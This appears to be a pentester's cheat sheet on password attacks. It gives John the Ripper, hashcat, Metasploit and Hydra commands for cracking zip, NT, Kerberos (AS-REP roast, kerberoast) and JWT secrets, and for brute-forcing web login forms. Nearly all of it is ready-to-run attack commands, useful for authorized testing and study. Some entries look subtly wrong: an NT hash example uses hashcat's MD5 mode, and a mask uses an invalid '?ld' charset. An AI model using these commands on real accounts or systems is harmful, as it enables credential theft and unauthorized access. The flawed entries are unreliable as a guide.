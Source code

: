 # Password Attacks

# john

- Crack password protected zip archives

```
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist

```

- Crack salted SHA512 hash

```
# hashfile format: hash$salt
john --format='dynamic=sha512($p.$s)' --wordlist=/path/to/wordlist ./hashfile

```

- Crack Windows hash

```
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```

## hashcat

- generate word list with hashcat maskprocessor

```
<https://github.com/hashcat/maskprocessor/releases/>

```

- windows hash

```
# Format: ffb43f0de35be4d9917ac0cc8ad57f8d
hashcat -m 0 -a 0 ./hash.txt /opt/wordlists/rockyou.txt

```

- kerberos asrep (asreproast)

```
hashcat -m 18200 --force -a 0 hashes.asreproast /opt/wordlists/rockyou.txt

```

- kerberos tgs (kerberoast)

```
hashcat -m 13100 --force -a 0 ./kerberoast.hashes /opt/wordlists/rockyou.txt

```

- attack modes

```
# dictionary attack
-a0
# combinator attack
-a1
# bruteforce / mask attack
-a3
# hybrid wordlist+mask
-a6
# hybrid mask+wordlist
-a7

```

- hash types

```
# full list : <https://hashcat.net/wiki/doku.php?id=example_hashes>
# md5
-m 0
# jwt
-m 16500
# kerberos asrep (asreproast)
-m 18200
# kerberos ths (kerberoast)
-m 13100

```

### mask attack

[Untitled](Password%20Attacks%20966fb14e655a41628f8e45828d8ebf4b/Untitled%20Database%202741ce9783bd4c538903d7426591abe9.csv)

```
# define custom charset
-1 ?h?H?d
# define mask
?1?1?1
# command
-a3 -1 ?h?H?d ?1?1?1

```

### HS256 JWT secret

```
# mask attack 4-12 char [a-z0-9]
hashcat -a 3 -m 16500 jwt.txt ?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld -i --increment-min=4

# dictionary attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt

# distionary rule-based attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule

```

## Metasploit

- Crack previously dumped Windows hash

```
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run

```

# Brute forcing

## Hydra

- Bruteforce login/password combination

```
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"

```

- Find password for a known user

```
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"

```

## Links

---

### Guides

- [https://github.com/frizb/Hydra-Cheatsheet](https://github.com/frizb/Hydra-Cheatsheet)
- [https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py](https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py)

### Writeups

-